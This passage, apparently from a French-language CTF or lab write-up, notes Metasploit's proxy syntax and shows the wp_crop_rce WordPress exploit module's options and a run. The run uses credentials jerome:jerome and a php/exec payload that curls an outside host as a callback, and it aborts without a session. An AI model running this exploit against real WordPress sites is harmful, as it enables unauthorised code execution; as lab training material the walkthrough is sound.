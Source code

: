 Metasploit a un format particulier pour spécifier les proxies, il faut faire attention :

```
msf6 exploit(multi/http/wp_crop_rce) > show options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting          Required  Description
   ----       ---------------          --------  -----------
   PASSWORD   jerome                   yes       The WordPress password to authenticate with
   Proxies    http:192.168.56.82:8080  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1                yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      1337                     yes       The target port (TCP)
   SSL        false                    no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /wordpress/              yes       The base path to the wordpress application
   THEME_DIR                           no        The WordPress theme dir name (disable theme auto-detection if provided)
   USERNAME   jerome                   yes       The WordPress username to authenticate with
   VHOST                               no        HTTP server virtual host


Payload options (php/exec):

   Name  Current Setting                    Required  Description
   ----  ---------------                    --------  -----------
   CMD   curl http://192.168.56.79/success  yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   WordPress



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_crop_rce) > run

[*] Authenticating with WordPress using jerome:jerome...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[-] Exploit aborted due to failure: not-found: Can't find base64 decode on target
[*] Exploit completed, but no session was created.
```
